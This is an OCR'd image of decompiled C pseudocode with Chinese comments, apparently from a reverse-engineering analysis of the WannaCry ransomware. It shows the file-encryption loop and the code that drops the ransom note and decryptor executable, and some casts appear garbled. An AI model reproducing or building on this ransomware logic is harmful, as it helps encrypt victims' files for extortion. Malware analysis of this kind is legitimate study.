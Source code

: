 ```c
hFile = hFindFile;  

}  

while ( FindNextFileW(hFindFile, &FindFileData) );// 查找下一个文件  

FindClose(hFile);  

for ( i = *(wchar_t )v33; i != v33; i = *(wchar_t )i )// 循环加密所有的文件  

{  

if ( !EncryptAllFile(v5, i + 4, 1) )      // 加密所有文件  

sub_10003760((_DWORD *)a3, &v36, *(_DWORD )(a3 + 4), i + 4);  

}  

v14 = a4;  

if ( a4 == -1 )  

{  

v15 = Format;  

v14 = 0;  

if ( wcsnicmp(Format, asc_1000CC14, 2u) )  

v14 = 1;  

else  

v15 = Format + 2;  

v16 = *v15;  

for ( j = v15; v16; ++j )  

{  

if ( v16 == 92 )  

++v14;  

v16 = j[1];  

}  

}  

if ( v14 <= 6 && v34 > 0 )  

{  

CopyReadMeTxt(Format);                    // 将@Please_Read_Me@.txt 拷贝到D盘下  

if ( v14 > 4 )  

CopyWanaDecryptor_0(Format);            // 将@WanaDecryptor@.exe拷贝到D盘  

else  
```